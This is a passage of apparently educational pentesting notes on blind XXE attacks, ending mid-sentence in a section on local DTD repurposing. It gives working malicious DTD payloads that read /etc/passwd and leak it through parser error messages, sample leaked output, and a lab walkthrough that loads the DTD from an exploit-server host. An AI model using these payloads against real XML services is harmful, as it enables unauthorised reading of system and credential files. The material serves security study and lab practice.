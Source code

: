 ### Exploiting blind XXE to retrieve data via error messages

{% code overflow="wrap" fullWidth="true" %}
```sh
# Trigger an XML parsing error message containing the contents of the /etc/passwd file using a malicious external DTD:
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;

This DTD carries out the following steps:
  -  Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
  -  Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity 
     called error. The error entity will be evaluated by loading a nonexistent file whose name contains the value 
     of the file entity.
  - Uses the eval entity, which causes the dynamic declaration of the error entity to be performed.
  - Uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting
     in an error message containing the name of the nonexistent file, which is the contents of the /etc/passwd file.

# Invoking the malicious external DTD will result in an error message like the following:
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

# EXAMPLE: Exploiting blind XXE to retrieve data via error messages
- Identify endpoint that sends XML data. See there are basic defenses against XXE.
- Write the following payload on the body part of the exploit server
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
- Deliver the following payload on the vulnerable app
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM

"https://exploit-0a4300490371c8e78169109701e7002e.exploit-server.net/malicious.dtd"> %xxe;]>
- The server responds with an error, showing the specified file.
```
{% endcode %}

### Exploiting blind XXE by repurposing a local DTD

{% code overflow="wrap" fullWidth="true" %}
```xml
So what about blind XXE vulnerabilities when out-of-band interactions are blocked? 
You cannot exfiltrate data via an out-of-band connection, and you cannot load an external DTD from a remote server. 

In this situation, it might still be possible to trigger error messages containing sensitive data, due to a loophole
in the XML language specification. If a document DTD uses a hybrid of internal and external DTD declarations, then
the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction
on using an XML parameter entity within the definition of another parameter entity is relaxed. 

An attacker can employ the error-based XXE technique from within an internal DTD, provided the XML parameter entity
```